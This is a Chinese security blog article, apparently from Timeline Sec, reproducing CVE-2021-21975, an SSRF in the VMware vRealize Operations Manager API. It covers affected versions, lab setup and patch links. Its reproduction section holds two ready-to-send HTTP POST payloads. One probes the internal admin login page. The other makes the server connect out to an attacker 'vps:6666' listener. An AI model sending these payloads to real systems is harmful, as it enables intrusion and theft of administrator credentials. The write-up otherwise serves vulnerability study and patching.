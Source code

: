 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/yCpHHiD5NOMPHNCAVlkLyQ)

**上方蓝色字体关注我们，一起学安全！**

**作者：****Pet3r****@Timeline Sec  
**

**本文字数：1027**

**阅读时长：3～4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

vRealize Operations Manager 提供跨物理、虚拟和云基础架构的智能运维管理以及从应用程序到存储的可见性。使用基本策略的自动化，操作团队实现关键过程的自动化并提高 IT 效率。  

**0x02 漏洞概述**  

  

**编号：CVE-2021-21975**  

此漏洞是 vRealize Operations API 管理器中的服务器端请求伪造（SSRF）漏洞，该漏洞可能允许未经身份验证的远程攻击者窃取管理密码。VMware 将漏洞指定为 “重要” 严重等级，CVSSv3 评分为 8.6。

**0x03 影响版本**  

  

VMware vRealize Operations 8.3.0、8.2.0、8.1.1、8.1.0、7.5.0

VMware Cloud Foundation 4.x、3.x

vRealize Suite Lifecycle Manager 8.x

**0x04 环境搭建**  

  

漏洞环境下载地址：  

https://my.vmware.com/zh/group/vmware/patch#search  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaFLcXrKvVIOFC4ib2PxW3gPRQtUcKPYgA3tlBdsdEvyRalnN4TK1T9kDzp1nmjiaeLe6lSjDleK00w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaFLcXrKvVIOFC4ib2PxW3gPbml366zacnfiarjVYEYFicyyACOGwkqJibMYZDFuH9ibcEzIZGOoguHj4w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaFLcXrKvVIOFC4ib2PxW3gPhQUu78Da4G7w3IKAhuSxDLsRb5FjXDevaJdiaVmfNfk2dpCdibQf4oicg/640?wx_fmt=png)

访问生成的地址：  

https://192.168.3.6

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaFLcXrKvVIOFC4ib2PxW3gPKE5lPFhDBSEeXLrQBCS3icfXkL4EqxjfcJiaXXCg3DDKQplJyhLyPp5Q/640?wx_fmt=png)

**0x05 漏洞复现**  

  

验证 1: 服务端请求登录

```
POST /casa/nodes/thumbprints HTTP/1.1
Host: 192.168.3.6
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Client-Data: CKi1yQEIlLbJAQijtskBCMS2yQEIqZ3KAQiOucoBCPjHygEIpM3KAQjc1coBCPDgygEI5JzLAQipncsB
Content-Type: application/json;charset=UTF-8
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 36

["127.0.0.1:443/admin/login.action"]
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaFLcXrKvVIOFC4ib2PxW3gPZ6dxrsQicSkDE1GrlVMsKyOiaNmSPkyBZdw9lZukHsvWIcibTHj4EkS5Q/640?wx_fmt=png)
-----------------------------------------------------------------------------------------------------------------------------------------------

验证 2:vps 监听  

```
POST /casa/nodes/thumbprints HTTP/1.1
Host: 192.168.3.6
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Client-Data: CKi1yQEIlLbJAQijtskBCMS2yQEIqZ3KAQiOucoBCPjHygEIpM3KAQjc1coBCPDgygEI5JzLAQipncsB
Content-Type: application/json;charset=UTF-8
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 36

["vps:6666"]
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaFLcXrKvVIOFC4ib2PxW3gPr2WMeSqcqibHk0we4Z9BWwD8uMIEfQXba9HtEDlQKDrQOZJdLgx93Xg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaFLcXrKvVIOFC4ib2PxW3gPGy6ia3sjl3TlxPnCGicMiawpg4qtw07rdDFfI9waUdYLxCM5ZJwdDQFqg/640?wx_fmt=png)  

**0x06 修复方式**  

  

建议参考官方公告及时升级或安装相应补丁

下载链接：

https://kb.vmware.com/s/article/83210

```
参考链接：
```

https://www.vmware.com/security/advisories/VMSA-2021-0004.html

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21975

https://www.bleepingcomputer.com/news/security/vmware-fixes-bug-allowing-attackers-to-steal-admin-credentials/

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行